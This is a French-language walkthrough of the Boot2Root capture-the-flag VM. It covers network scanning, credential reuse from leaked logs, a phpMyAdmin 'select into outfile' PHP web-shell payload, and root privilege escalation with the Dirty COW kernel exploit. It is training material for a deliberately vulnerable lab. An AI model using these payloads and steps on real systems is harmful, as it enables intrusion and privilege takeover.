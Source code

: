 
## Configuration de la VM et ports

Après avoir créé simplement une VM, monté l'ISO du sujet, on peut configuer les options réseau de la VM sur virtualbox

Aller dans File->Host network manager

Créer un nouvel host, avec pour adresse 192.168.56.1

Aller dans Settings->Network

Dans adapteur1, créer un host-only, avec comme nom celui précédemment créé.

On lance la VM.

## Scan de la VM

On cherche l'adresse ip de notre VM. Dans la console :

- `nmap 192.168.56.0-255`
  ```shell
  [...]
    Nmap scan report for 192.168.56.101
    Host is up (0.10s latency).
    Not shown: 994 closed tcp ports (conn-refused)
    PORT    STATE SERVICE
    21/tcp  open  ftp
    22/tcp  open  ssh
    80/tcp  open  http
    143/tcp open  imap
    443/tcp open  https
    993/tcp open  imaps
  [...]
  ```

L'adresse qui nous intéresse ici est 192.168.56.101, car c'est celle qui possède le plus de ports d'ouverts.
On prendra toujours la dernière adresse qui possede le plus de ports ouverts, son numero peut changer selon les installations.
On l'appelera 192.168.56.#.

<h1> Utiliser un 'penetration testing tools' pour trouver d'autres accès</h1>

On utilise **[Dirb](https://www.kali.org/tools/dirb/)**, qui cher he les pages web accessibles sur l'ip fournie.

- `./scripts/install_dirb`
- `dirb https://192.168.56.101 ~/Applications/dirb222/wordlists/common.txt -rN 403`
  ```shell
  [...]
    ---- Scanning URL: https://192.168.56.101/ ----
    ==> DIRECTORY: https://192.168.56.101/forum/
    ==> DIRECTORY: https://192.168.56.101/phpmyadmin/
    ==> DIRECTORY: https://192.168.56.101/webmail/
  [...]
  ```
On découvre ainsi l'existence d'un forum, d'un phpMyAdmin et d'un webmail.

<h2> Forum </h2>

Parmi les sujets sur le forum, lmezard en a créé un nommé "Problème login ?" dont voici un extrait:

>Oct 5 08:45:26 BornToSecHackMe sshd[7547]: input_userauth_request: invalid user adam [preauth]<br/>
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): check pass; user unknown<br/>
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=161.202.39.38-static.reverse.softlayer.com<br/>
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: **Failed password for invalid user !q\]Ej?*5K5cy*AJ** from 161.202.39.38 port 57764 ssh2<br/>
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]<br/>
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)<br/>
Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user lmezard<br/>
Oct 5 10:51:01 BornToSecHackMe CRON[13049]: pam_unix(cron:session): session closed for user root<br/>

L'utilisateur a entré ce qui ressemble à un password dans le champs login: `!q\]Ej?*5K5cy*AJ`

On essaie donc ce mot de passe pour l'utilisateur lmezard sur le forum via le lien 'Log in' en haut à droite de la page, ça fontionne !
Dans les paramètres du user, on trouve aussi son mail : `laurie@borntosec.net`

<h2> Webmail </h2>

On peut accéder au webmail précédemment decouvert (https://192.168.56.#/webmail) avec l'adresse mail et le mot de passe du forum, ça fonctionne également !

On y apprend, dans les mails reçus, que l'on peut accéder à la database avec les identifiants suivants, qui sont envoyés par ft_root@mail.borntosec.net :

`root` / `Fg-'kKXBj87E:aJ$`

<h2>PhpMyAdmin</h2>

En suivant ce lien https://192.168.56.#/phpmyadmin, on peut se connecter avec les credentials suivants :

root / Fg-'kKXBj87E:aJ$

On peut créer des fichiers dans le dossier /var/www/forum/templates_c/ grâce à la requête SQL suivante :

>select "\<? System('COMMANDE'); ?\>" into outfile "/var/www/forum/templates_c/#.php";

COMMANDE la commande shell à exécuter par PhpMyAdmin. #.php le nom du fichier produit.

On obtient donc un moyen de lancer des commandes via PhPMyAdmin et de consulter les résultats en accèdant à l'adresse "https://192.168.56.#/forum/templates_c/#.php".

Avec la commande “uname -a”, on obtient par exemple des informations sur le système, qui nous seront utiles plus tard.

> Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux

En fouinant un peu, on a aussi pu découvrir le contenu de "/home/LOOKATME/password"

Ce fichier password contient les identifiants pour une connexion ftp :

lmezard / G!@M6f4Eatau{sF"

<h1> Connexion FTP et le fichier fun </h1>

On se connecte donc en ftp à la VM avec les identifiants trouvés, à l'adresse 192.168.56.# puisque le port ftp y est ouvert.

On télécharge le README et le fichier ‘fun’ grâce a la commande “get”.

Contenu du README :

> Complete this little challenge and use the result as password for user 'laurie' to login in ssh

On lance ensuite :

>file fun

Afin de connaître le type de ce fichier.

> fun: POSIX tar archive (GNU)

En faisant une première analyse manuelle de ce fichier, on voit clairement qu'il contient du code C, avec un main contenant 12 fonctions getmeX(), qui doivent renvoyer un caractère.

En décompilant ce fichier ("tar xvf fun"), on obtient un dossier ft_fun contenant de multiples fichiers aux noms barbares, contenant eux mêmes des morceaux de code C, avec un commentaire indiquant un numéro de fichier.

On doit donc écrire un script pour trier et former, dans l'ordre indiqué par les commentaires des fichiers, le code C de ces mêmes fichiers.
Ce script se trouve dans le dossier script du rendu, et doit être utilisé dans le dossier où se trouve le dossier ft_fun.

En récupérant la suite du code du fichier fun qui ne faisait pas partie des fichiers décompilés, on arrive à reconstruire un fichier C compilable comprenant 12 fonctions et un main, dont la sortie est la suivante :

> MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit

On obtient donc le password suivant, pour l'utilisateur laurie :

>330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

<h1> Connexion SSH </h1>

En ayant une connexion SSH, nous pouvons désormais continuer de suivre le chemin de petits cailloux, ou bien utiliser d'autres exploitations, ce que nous allons évidemment faire.

<h2>Dirty Cow</h2>

Nous l'avions appris précédemment, le kernel est un Linux de version inférieure à 4.0

C'est pourquoi nous pouvons utiliser une vulnérabilité du système, au doux nom de Dirty Cow (ref. CVE-2016-5195)

>  _A [race condition](https://en.wikipedia.org/wiki/Race_condition) was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings.
An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system._

De nombreux codes existent sur internet afin de profiter de cette vulnérabilité, et nous avons choisi d'utiliser [ce code](https://www.exploit-db.com/exploits/40839), présent dans le dossier scripts, qui modifie le nom de connexion à root et change son password.

On ouvre donc un editeur de code (tel que vim) dans la VM, et on sauvegarde le code du dirty cow dans un fichier .c, à compiler avec la commande `gcc -pthread dirty.c -lcrypt` et on exécute.
On peut ensuite suivre les instructions du programme, puis se connecter avec les credentials appropriés sur la VM.
